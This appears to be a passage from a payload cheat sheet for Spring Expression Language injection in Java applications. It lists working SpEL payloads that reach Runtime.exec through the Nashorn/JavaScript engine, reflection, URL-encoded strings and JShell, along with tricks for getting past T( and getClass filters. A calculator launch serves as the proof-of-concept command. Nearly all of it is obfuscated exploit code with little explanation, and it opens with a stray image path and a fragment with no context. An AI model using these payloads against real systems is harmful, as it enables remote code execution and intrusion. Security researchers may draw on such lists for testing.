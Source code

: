 ```python
    shell()
```

### JavaScript Engine

```java
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='open';s[1]='-a';s[2]='Calculator';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")
```

```java
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName(\"JavaScript\").eval(\"s=[3];s[0]='open';s[1]='-a';s[2]='Calculator';java.la\"+\"ng.Run\"+\"time.getRu\"+\"ntime().ex\"+\"ec(s);\"))
```

### JavaScript Engine && Reflection Calls

``
`java
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").ge tMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"open","-a","Calculator"})))
```

### JavaScript Engine && URL Coding

```java
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName(\"JavaScript\").eval(T(java.net.URLDecoder).decode(\"%6a%61%76%61%2e%6c%61%6e%67%2e% 52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%6f%70%65%6e%20%2d%61%20%43%61%6c%63%75%6c%61%74%6f%72%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29\")))
```

### JShell
New `shell` added in `JDK9`.

```java
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('open -a Calculator').toString()
```

### Bypass T(Filter
When `SpEL` encodes characters, `%00` will be replaced directly with empty.

```java
T%00(new)
```

### Bypass getClass(

```java
// The 15 here may need to be replaced with 14, and the serial numbers of different jdk versions are different.
"".class.getSuperclass().class.forName("java.lang.Runtime").getDeclaredMethods()[15].invoke("".class.getSuperclass().class.forName("java.lang.Runtime").getDeclaredMethods()[7].invoke(null),"open -a Calculator")
```

